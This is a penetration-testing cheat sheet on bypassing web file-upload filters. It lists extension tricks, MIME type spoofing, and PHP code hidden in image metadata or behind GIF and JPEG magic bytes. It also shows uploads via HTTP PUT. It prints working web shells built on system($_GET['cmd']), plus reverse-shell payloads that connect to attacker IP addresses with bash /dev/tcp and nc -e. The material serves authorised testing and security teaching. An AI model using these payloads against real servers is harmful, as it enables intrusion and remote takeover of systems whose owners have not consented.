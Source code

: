 # File Upload Bypass

## File extension

Developers may blacklist specific file extensions and prevent users from uploading files with extensions that are considered dangerous. This can be bypassed by using alternate extensions or even unrelated ones. For example, it might be possible to upload and execute a `.php` file simply by renaming it `file.php.jpg` or `file.PHp`.

Example:&#x20;

* file.php -> 'file.jpg', 'file.php.', 'file.php.jpg' or 'file.php;.jpg'
* file.asp -> 'file.asp;.jpg'&#x20;
* shell.js -> 'shell.jpg'
* shell.php -> shell.phpA.pdf and use hexedit to replace 'A' to 'null byte(0x00)'



**Alternate extensions**

| Type       | Extension                                  |
| ---------- | ------------------------------------------ |
| php        | phtml, .php, .php3, .php4, .php5, and .inc |
| asp        | asp, .aspx                                 |
| perl       | .pl, .pm, .cgi, .lib                       |
| jsp        | .jsp, .jspx, .jsw, .jsv, and .jspf         |
| Coldfusion | .cfm, .cfml, .cfc, .dbm                    |

## MIME type

Blacklisting MIME types is also a method of file upload validation. It may be bypassed by intercepting the POST request on the way to the server and modifying the MIME type.

Normal php MIME type:

```
Content-type: application/x-php
```

Replace with:

```
Content-type: image/jpeg
```

## PHP getimagesize()

For file uploads which validate image size using php `getimagesize()`, it may be possible to execute shellcode by inserting it into the Comment attribute of Image properties and saving it as `file.jpg.php`.

You can do this with gimp or exiftools:

```bash
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
mv file.jpg file.php.jpg
#or
mv file.jpg file.jpg.php
```

I'm not sure why some tutorials have the php extension first while others have it second. Try both.

### JPG to PNG Shell

```bash
<?php system($_GET['cmd']); ?>  //shell.php
exiftool "-comment<=shell.php" malicious.png
strings malicious.png | grep system
```

## GIF89a; header

GIF89a is a GIF file header. If uploaded content is being scanned, sometimes the check can be fooled by putting this header item at the top of shellcode:

```bash
GIF89a;
<?php system($_GET['cmd']) ?>

GIF89a:
<?php system('bash -i >& /dev/tcp/10.10.14.5/1234 0>&1 ') ?>
```

### JPEG - '\xff\xd8\xff\xdb'&#x20;

```bash
echo -e '\xff\xd8\xff\xdb' > fake.php.jpg
vim fake.php.jpg
# Add the php script to the jpg file, such as 
# <?php system('nc 10.10.14.19 9090 -e /bin/bash'); ?> 
```

### PUTing File on the Webhost via PUT verb

```bash
curl -X PUT -d '<?php system($_GET["c"]);?>' http://192.168.2.99/shell.php
```
